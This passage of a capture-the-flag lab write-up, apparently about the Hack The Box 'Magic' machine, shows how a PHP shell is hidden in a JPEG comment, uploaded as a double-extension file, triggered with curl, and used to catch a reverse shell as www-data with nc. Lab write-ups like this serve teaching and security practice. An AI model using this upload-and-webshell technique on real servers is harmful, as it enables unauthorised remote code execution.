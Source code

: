 `wrjpgcom -comment "$(cat sorryfortheshell.php)" 5.jpeg > sorryforthis.php.jpeg`

* The `$()` does a command substitution in bash. Here, it executes the command `cat sorryfortheshell.php` and replaces the `$()` expression with the stdout of the command.

* `5.jpeg` is just an image I downloaded earlier from the website.

### Uploading The Malicious Image

With the upload form we created, we can upload `sorryforthis.php.jpeg` to the Magic machine.

As the returned response is a redirection, we can only see the actual response text if we proxy the request through Burp.

![upload confirmation](images/magic/uploaded.jpg)

### Triggering The Payload

We can trigger the a reverse shell by requesting for the payload file we uploaded.

`curl http://10.10.10.185/images/uploads/sorryforthis.php.jpeg`

And we get a reverse shell for `www-data`.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 51678
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:07:49 up  2:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

One question. Why does the server execute our `.php.jpeg` file as a php file?

We can find the answer in the server configuration.
